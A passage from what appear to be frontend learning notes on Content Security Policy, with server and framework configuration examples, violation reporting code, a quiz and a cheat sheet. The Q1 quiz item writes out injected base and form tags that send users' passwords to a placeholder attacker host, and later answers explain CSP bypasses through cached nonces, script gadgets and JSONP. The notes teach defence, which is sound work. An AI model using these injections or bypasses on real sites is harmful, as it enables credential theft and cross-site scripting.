| **SvelteKit** | Built-in `kit.csp` config with `mode` set to `auto`, `hash` or `nonce` — nonces for dynamic pages, hashes for prerendered ones |
| **Astro** | Recent versions include CSP support that hashes scripts and styles — check the Astro docs for your version |
| **Hybrid mobile (Capacitor, Cordova) and Electron** | Use a `<meta>` CSP in the app HTML; Electron's security checklist explicitly recommends defining a CSP |
| **Native WebViews** | The loaded page's CSP applies inside the WebView just like a browser; native code injected via `evaluateJavaScript` is not subject to the page CSP |

---

## System Design Angle

CSP touches **rendering strategy, caching and third-party governance** at once:



| Decision | Options | Trade-off |
|---|---|---|
| Nonce vs hash | Nonce for SSR; hash for SSG/static SPA | Nonces force per-request HTML (no shared caching of HTML); hashes need build integration |
| HTML caching | Shared-cache static HTML (hash CSP) vs dynamic per-request HTML (nonce CSP) | CDN hit rate vs per-request work; edge nonce rewriting is a middle ground |
| Third-party tags | Load through a nonce'd tag manager with `'strict-dynamic'` | Tag manager becomes a trust root — govern who can publish tags |
| `style-src` | Strict vs `'unsafe-inline'` | Strictness constrains CSS-in-JS choices |
| Where headers live | Edge config / middleware (one place) vs per-app | Centralised policy is easier to audit; per-route overrides for embeds |
| Report pipeline | Own collector vs a vendor | Volume, PII handling, alerting |

---

## Real-World Examples

**Example 1 — Express SSR with a per-request nonce:**
```javascript
import crypto from 'node:crypto';
import express from 'express';

const app = express();

app.use((req, res, next) => {
  const nonce = crypto.randomBytes(16).toString('base64'); // 128 bits, new per response
  res.locals.nonce = nonce;

  const policy = [
    `script-src 'nonce-${nonce}' 'strict-dynamic' https: 'unsafe-inline'`,
    `object-src 'none'`,
    `base-uri 'none'`,
    `frame-ancestors 'none'`,
    `form-action 'self'`,
    `report-to csp-endpoint`,
    `report-uri /csp-report`,
  ].join('; ');

  res.set({
    'Content-Security-Policy': policy,
    'Reporting-Endpoints': 'csp-endpoint="/csp-report"',
    'Cache-Control': 'private, no-cache', // nonce'd HTML must not be shared-cached
  });
  next();
});

app.get('/', (req, res) => {
  const { nonce } = res.locals;
  res.send(`<!doctype html>
<html><head>
  <script nonce="${nonce}" type="module" src="/assets/index-3f9a1c.js"></script>
</head><body><div id="root"></div></body></html>`);
});

// Accept both legacy and Reporting API formats
app.post('/csp-report',
  express.json({ type: ['application/csp-report', 'application/reports+json', 'application/json'] }),
  (req, res) => {
    const reports = Array.isArray(req.body) ? req.body.map((r) => r.body) : [req.body['csp-report']];
    for (const r of reports) {
      const blocked = r?.blockedURL ?? r?.['blocked-uri'] ?? '';
      if (/^(chrome|moz|safari)-extension:/.test(blocked)) continue; // extension noise
      console.warn('CSP violation', r?.effectiveDirective ?? r?.['violated-directive'], blocked);
    }
    res.sendStatus(204);
  });

app.listen(3000);
```

**Example 2 — Next.js App Router nonce (middleware / proxy):**
```typescript
// middleware.ts (named proxy.ts in Next.js 16+) — see the Next.js CSP guide for the current file name
import { NextResponse, type NextRequest } from 'next/server';

export function middleware(request: NextRequest) {
  const nonce = Buffer.from(crypto.randomUUID()).toString('base64');
  const csp = [
    `default-src 'self'`,
    `script-src 'self' 'nonce-${nonce}' 'strict-dynamic'`,
    `style-src 'self' 'nonce-${nonce}'`,
    `img-src 'self' blob: data:`,
    `font-src 'self'`,
    `object-src 'none'`,
    `base-uri 'self'`,
    `form-action 'self'`,
    `frame-ancestors 'none'`,
    `upgrade-insecure-requests`,
  ].join('; ');

  const requestHeaders = new Headers(request.headers);
  requestHeaders.set('x-nonce', nonce);
  requestHeaders.set('Content-Security-Policy', csp); // Next reads the nonce from here for its scripts

  const response = NextResponse.next({ request: { headers: requestHeaders } });
  response.headers.set('Content-Security-Policy', csp);
  return response;
}

// In a Server Component, read it for your own <Script nonce={...}>:
//   const nonce = (await headers()).get('x-nonce') ?? undefined;
```

**Example 3 — Inline handler and `javascript:` link refactor (BAD → GOOD):**
```html
<!-- ❌ BAD: blocked by any strict script-src -->
<button onclick="openCart()">Cart</button>
<a href="javascript:void(0)" onclick="toggleMenu()">Menu</a>

<!-- ✅ GOOD: no inline code; behaviour attached from a nonce'd/bundled script -->
<button type="button" id="cart-btn">Cart</button>
<button type="button" id="menu-btn" aria-expanded="false">Menu</button>
<script nonce="Q2x9" type="module">
  document.getElementById('cart-btn').addEventListener('click', openCart);
  document.getElementById('menu-btn').addEventListener('click', toggleMenu);
</script>
```

**Example 4 — Emotion / styled-components with a nonce:**
```tsx
import createCache from '@emotion/cache';
import { CacheProvider } from '@emotion/react';

// nonce comes from the server (e.g. a meta tag or SSR props)
export function StyleRoot({ nonce, children }: { nonce: string; children: React.ReactNode }) {
  const cache = createCache({ key: 'css', nonce });
  return <CacheProvider value={cache}>{children}</CacheProvider>;
}

// webpack-based setups (styled-components and lazy chunks read this global):
// __webpack_nonce__ = nonce;   // must run before any dynamic import or style injection
```

**Example 5 — SvelteKit and Angular configuration:**
```javascript
// svelte.config.js — SvelteKit generates nonces (SSR) or hashes (prerendered) automatically
export default {
  kit: {
    csp: {
      mode: 'auto',
      directives: {
        'script-src': ['self', 'strict-dynamic'],
        'object-src': ['none'],
        'base-uri': ['none'],
        'frame-ancestors': ['none'],
      },
      reportOnly: { 'script-src': ['self'], 'report-uri': ['/csp-report'] },
    },
  },
};
```

```html
<!-- Angular: the server sets a per-request nonce on the root element -->
<app-root ngCspNonce="Q2x9"></app-root>
```

**Example 6 — Client-side violation telemetry:**
```typescript
document.addEventListener('securitypolicyviolation', (e) => {
  navigator.sendBeacon(
    '/telemetry/csp',
    JSON.stringify({
      directive: e.effectiveDirective,
      blocked: e.blockedURI,
      source: e.sourceFile,
      line: e.lineNumber,
      sample: e.sample, // only present with 'report-sample'
      disposition: e.disposition, // 'enforce' or 'report'
    }),
  );
});
```

**Example 7 — Checking a deployed policy:**
```bash
# See what is actually sent (CDNs and proxies sometimes add or strip headers)
curl -sI https://app.example.com/ | grep -iE '^(content-security-policy|reporting-endpoints)'
```
Then paste the policy into Google's **CSP Evaluator** to spot missing `object-src`/`base-uri`, risky hosts and `'unsafe-*'` keywords.

---

## Key Points Summary

| Concept | One-Line Explanation |
|---|---|
| **CSP** | Browser-enforced allow-list for scripts, resources, framing and form targets |
| **Header vs meta** | Header is preferred; meta can't do `frame-ancestors`, `sandbox` or reporting |
| **Report-Only** | Same syntax, reports instead of blocking — use it to roll out and tighten |
| **Fallback chain** | Fetch directives fall back to `default-src`; `base-uri`, `form-action`, `frame-ancestors` don't |
| **Allowlists fail** | JSONP, old-library gadgets and uploads on allowed hosts bypass them |
| **Nonce** | Random per response, on each legitimate script; injected scripts lack it |
| **Hash** | SHA of inline content; ideal for static HTML that can't get a per-request nonce |
| **`'strict-dynamic'`** | Trusted scripts can load more scripts; host lists are ignored |
| **Backward compatibility** | `'unsafe-inline'` and `https:` are ignored by browsers that support nonces/strict-dynamic |
| **`'unsafe-eval'`** | Re-opens string-to-code; use precompiled templates and `'wasm-unsafe-eval'` for WASM |
| **`style-src`** | Strict is possible with zero-runtime CSS; many apps accept `'unsafe-inline'` for styles |
| **`frame-ancestors`** | Modern clickjacking defence, replaces `X-Frame-Options` |
| **Reporting** | `report-to` + `Reporting-Endpoints`, plus `report-uri` for older browsers; filter noise |
| **Nonce + caching** | Nonce'd HTML can't be shared-cached as-is; static pages use hashes |

---

## Test Your Understanding

**Q1 (Basic):**
Your policy is `default-src 'self'`. An attacker injects `<base href="https://evil.example/">` and `<form action="https://evil.example/steal">`. Does your CSP stop either?

<details>
<summary>Answer</summary>

**Neither.** `base-uri` and `form-action` are **not fetch directives** and do **not** fall back to `default-src`.
- The injected `<base>` changes how every **relative URL** resolves: relative links and form targets now point at `evil.example`. With this host-based policy, `default-src 'self'` would still block a relative script that resolves to `evil.example`, but with a **nonce + `'strict-dynamic'`** policy (where host checks are ignored) a nonce'd `<script src="app.js">` would load attacker code — which is why strict policies always include `base-uri`.
- The injected form can show a fake "session expired" password prompt and post it to the attacker. Add `base-uri 'none'` (or `'self'`) and `form-action 'self'` explicitly, plus `frame-ancestors` and `object-src 'none'`.
</details>

**Q2 (Application):**
Why does Google recommend `script-src 'nonce-R' 'strict-dynamic' https: 'unsafe-inline'` — doesn't `'unsafe-inline'` defeat the whole point?

<details>
<summary>Answer</summary>

It's a **backward-compatibility fallback** that modern browsers ignore:
- Browsers supporting nonces/hashes (CSP2+) **ignore `'unsafe-inline'`** when a nonce or hash is present.
- Browsers supporting `'strict-dynamic'` (CSP3) **ignore host and scheme sources** like `https:`.

So a modern browser enforces "nonce + strict-dynamic" only. A CSP2-only browser enforces "nonce + https: hosts". A CSP1-only browser sees `'unsafe-inline' https:`, which doesn't protect much but also doesn't break the site. The policy degrades gracefully instead of breaking old clients.
</details>

**Q3 (Tricky):**
You enabled a nonce-based CSP on your Next.js/SSR marketing site and put the HTML behind a CDN with `s-maxage=300` to keep TTFB low. A pentester bypasses the CSP easily. How?

<details>
<summary>Answer</summary>

The CDN serves the **same cached HTML — with the same nonce in the header and script tags — to every visitor** for five minutes. The nonce is no longer a per-response secret: the attacker fetches the page, reads the current nonce, and includes it in their injected payload (for example via a stored-XSS field). As long as the injection is served within the cache window, the `<script nonce="…">` matches and executes.

Fixes: don't shared-cache nonce'd HTML (`private, no-cache`); or rewrite the nonce at the edge for **every** response; or, for static content, switch to **hash-based** CSP (hashes don't need to be secret). Next.js's guide notes nonces require dynamic rendering for exactly this reason.
</details>

**Q4 (Tricky):**
Your allowlist policy `script-src 'self' https://cdnjs.cloudflare.com` was praised in an audit. A researcher still achieves XSS without `'unsafe-inline'`. Name two likely techniques and the fix.

<details>
<summary>Answer</summary>

1. **Script gadgets on the allowed CDN:** load an old AngularJS (or another library that evaluates templates or data attributes) from `cdnjs.cloudflare.com`, then inject markup with template expressions — the library executes them.
2. **JSONP or user-controlled JS under `'self'`:** an endpoint like `/api/data?callback=` or an uploaded file served from your origin returns attacker-chosen JavaScript that `'self'` allows.

Also: open redirects on allowed hosts (paths are ignored after redirects). Fix: replace the host allowlist with **nonces or hashes + `'strict-dynamic'`**, add `object-src 'none'; base-uri 'none'`, remove JSONP, and serve uploads from a separate site.
</details>

**Q5 (Application):**
A product team adds a third-party chat widget that injects an inline `<script>` and `style="..."` attributes. Your strict policy blocks it. What are your options, from best to worst?

<details>
<summary>Answer</summary>

1. **Load the vendor's script from a nonce'd script you control** — with `'strict-dynamic'`, scripts it creates via the DOM are trusted. Many vendors document CSP-compatible (nonce-aware) setups; ask for one.
2. If the vendor injects **parser-inserted inline scripts** (`document.write`, `innerHTML` with script tags), isolate it in an **iframe on a separate origin** (your own wrapper page with a looser policy), communicating via `postMessage` with origin checks.
3. For **inline styles**, allow `style-src-attr 'unsafe-inline'` only, keeping `<style>` elements nonce'd — a scoped relaxation.
4. Worst: adding `'unsafe-inline'`/`'unsafe-eval'` to `script-src` or dropping `'strict-dynamic'` for a giant allowlist — that cancels most of the XSS protection for the entire app.

Also update `connect-src`, `frame-src`, `img-src` with the vendor's exact hosts, and roll the change out in report-only first.
</details>

**Q6 (System design):**
Design the CSP strategy for a company with: a statically exported marketing site on a CDN, an SSR React dashboard behind login, a tag manager used by marketing, and an embeddable widget other sites put in iframes.

<details>
<summary>Answer</summary>

- **Marketing site (static, CDN-cached):** **hash-based** strict CSP generated at build time (inline loader hash + `'strict-dynamic'`), `object-src 'none'; base-uri 'none'; frame-ancestors 'self'`. HTML stays fully cacheable. The **tag manager** is loaded by the hashed loader, so `'strict-dynamic'` trusts what it loads — make tag publishing a governed, reviewed process, since the tag manager is now a trust root.
- **Dashboard (SSR, authenticated):** **nonce-based** strict CSP generated per request in middleware; `Cache-Control: private, no-cache` on HTML; CSS-in-JS with the nonce or zero-runtime CSS; `connect-src` limited to the API and real-time hosts; `frame-ancestors 'none'`; `require-trusted-types-for 'script'` in report-only, then enforced. **No tag manager** here — fewer third parties on the most sensitive surface.
- **Embeddable widget:** its own origin and policy with `frame-ancestors` listing partner origins (or `https:` if any site may embed it), strict `script-src`, and `postMessage` origin checks.
- **Everywhere:** `Reporting-Endpoints` + `report-to` + `report-uri` to one collector that filters extension noise; a Report-Only header always carries the *next* tightening step; a CI check that loads key pages and fails on violations.
</details>

---

## Cheat Sheet

**Key Definitions:**
- **CSP:** a policy (header or meta) that restricts what a document may execute, load, frame and submit.
- **Directive:** one rule, e.g. `script-src`, `frame-ancestors`.
- **Source expression:** a value in a directive: `'self'`, a host, a scheme, a nonce, a hash, a keyword.
- **Nonce:** per-response random token that marks legitimate scripts.
- **Hash source:** base64 SHA-256/384/512 of exact inline content (or SRI-matched external scripts).
- **`'strict-dynamic'`:** trust propagates from trusted scripts to scripts they create; host lists ignored.
- **Report-Only:** evaluates the policy and reports violations without blocking.
- **Parser-inserted script:** a script element created by the HTML parser (markup, `document.write`) — not trusted via `'strict-dynamic'`.

**Quick Reference:**
```text
Strict SSR policy:
  script-src 'nonce-{RANDOM}' 'strict-dynamic' https: 'unsafe-inline';
  object-src 'none'; base-uri 'none'; frame-ancestors 'none'; form-action 'self';
  report-to csp-endpoint; report-uri /csp-report
  + Reporting-Endpoints: csp-endpoint="https://reports.example.com/csp"

Strict static policy:
  script-src 'sha256-{LOADER_HASH}' 'strict-dynamic'; object-src 'none'; base-uri 'none'

Trusted Types (after CSP is stable):
  require-trusted-types-for 'script'; trusted-types app-html dompurify

Nonce:        crypto.randomBytes(16).toString('base64') per response · never shared-cache that HTML
No fallback:  base-uri, form-action, frame-ancestors, sandbox  → set explicitly
Meta CSP:     no frame-ancestors, no sandbox, no reporting; must come first in <head>
WASM:         'wasm-unsafe-eval' instead of 'unsafe-eval'
Clickjacking: frame-ancestors 'none' (+ X-Frame-Options: DENY for very old browsers)
Rollout:      Report-Only → fix → enforce → keep Report-Only for the next tightening
```

**Common Mistakes to Avoid:**

| Mistake | Why Wrong | Fix |
|---|---|---|
| `script-src 'self' 'unsafe-inline'` | Inline injection runs — no XSS protection | Nonce/hash + `'strict-dynamic'` |
| Large host allowlists for scripts | JSONP, gadgets, redirects bypass them | Nonces/hashes; allowlists only for non-script directives |
| Static or reused nonce | Attacker can read and reuse it | New random nonce per response |
| Shared-caching nonce'd HTML | Everyone gets the same nonce | `private, no-cache`, edge rewrite, or hashes |
| Forgetting `object-src` / `base-uri` | Plugin and `<base>` bypasses | `object-src 'none'; base-uri 'none'` |
| Assuming `default-src` covers `form-action` / `frame-ancestors` | They have no fallback | Set them explicitly |
| `frame-ancestors` in a `<meta>` tag | Ignored there | Send it as a header |
| Shipping `'unsafe-eval'` for dev tooling | Production string-to-code path | Use eval-free production builds |
| Enforcing without a report-only phase | Breaks checkout, analytics, third parties | Report-Only first, with real traffic |
| Only `report-to` | Browsers without Reporting API support send nothing | Send `report-uri` too |
| Alerting on raw reports | Extension and bot noise drowns signal | Filter and aggregate |
| Treating CSP as the XSS fix | HTML injection, allowed-script abuse still work | Encode output, sanitize, Trusted Types |

---

## References & Further Reading

**Core docs**
- MDN: [Content Security Policy (CSP) guide](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CSP)
- MDN: [`Content-Security-Policy` header reference](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy)
- MDN: [`Content-Security-Policy-Report-Only`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy-Report-Only) · [`Reporting-Endpoints`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Reporting-Endpoints)
- MDN: [`SecurityPolicyViolationEvent`](https://developer.mozilla.org/en-US/docs/Web/API/SecurityPolicyViolationEvent)
- web.dev: [Mitigate cross-site scripting (XSS) with a strict Content Security Policy](https://web.dev/articles/strict-csp)
- web.dev: [Prevent DOM-based XSS with Trusted Types](https://web.dev/articles/trusted-types)

**Specs**
- W3C: [Content Security Policy Level 3](https://www.w3.org/TR/CSP3/)
- W3C: [Reporting API](https://www.w3.org/TR/reporting-1/)

**Framework docs**
- Next.js: [Content Security Policy guide](https://nextjs.org/docs/app/guides/content-security-policy)
- SvelteKit: [Configuration — `csp`](https://svelte.dev/docs/kit/configuration#csp)
- Angular: [Security — Content security policy](https://angular.dev/best-practices/security#content-security-policy)
- Vite: [`html.cspNonce`](https://vite.dev/config/shared-options.html#html-cspnonce)
- webpack: [`__webpack_nonce__`](https://webpack.js.org/guides/csp/)
- Electron: [Security checklist — Define a Content Security Policy](https://www.electronjs.org/docs/latest/tutorial/security)

**Tools & deep dives**
- Google: [CSP Evaluator](https://csp-evaluator.withgoogle.com/)
- OWASP: [Content Security Policy Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html)
- Weichselbaum et al.: [CSP Is Dead, Long Live CSP! (ACM CCS 2016)](https://dl.acm.org/doi/10.1145/2976749.2978363)

---

> **Previous Topic:** [XSS Prevention (Reflected, Stored, DOM)](./xss-prevention-reflected-stored-dom.md)
> — How injected script gets into your origin, and how encoding and sanitizing keep it out

> **Next Topic:** [CSRF Protection](./csrf-protection.md)
> — Stopping other sites from making authenticated requests on your users' behalf

*Saved on: 2026-11-06 | Repo: Frontend System Design Learning Notes*
